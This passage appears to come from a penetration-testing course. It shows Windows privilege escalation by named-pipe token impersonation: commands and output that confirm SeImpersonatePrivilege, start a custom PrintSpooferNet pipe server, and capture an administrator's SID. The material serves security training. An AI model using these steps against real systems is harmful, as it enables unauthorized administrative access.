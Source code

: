 > Listing 29 - Opening a command prompt as Network Service

Before we execute our application, we can verify the user and the presence of _SeImpersonatePrivilege_ in the new command prompt:

```
C:\Tools> whoami
nt authority\network service

C:\Tools> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

> Listing 30 - User and privileges

Now we can compile our assembled code and transfer it to appsrv01.

Next, we execute it and supply a random pipe name as shown in Listing 31.

```
C:\Tools>PrintSpooferNet.exe \\.\pipe\test
```

> Listing 31 - Starting the pipe server

To simulate a connection, we can open an elevated command prompt and write to the pipe as shown in Listing 32.

```
C:\Users\Administrator> echo hello > \\localhost\pipe\test
```

> Listing 32 - Writing to the pipe

When we switch back to the command prompt running our application, we find that a SID has been printed:

```
C:\Tools> PrintSpooferNet.exe \\.\pipe\test
Found sid S-1-5-21-1587569303-1110564223-1586047116-500
```

> Listing 33 - SID of built in administrator

Our code has impersonated a token and resolved the associated SID.

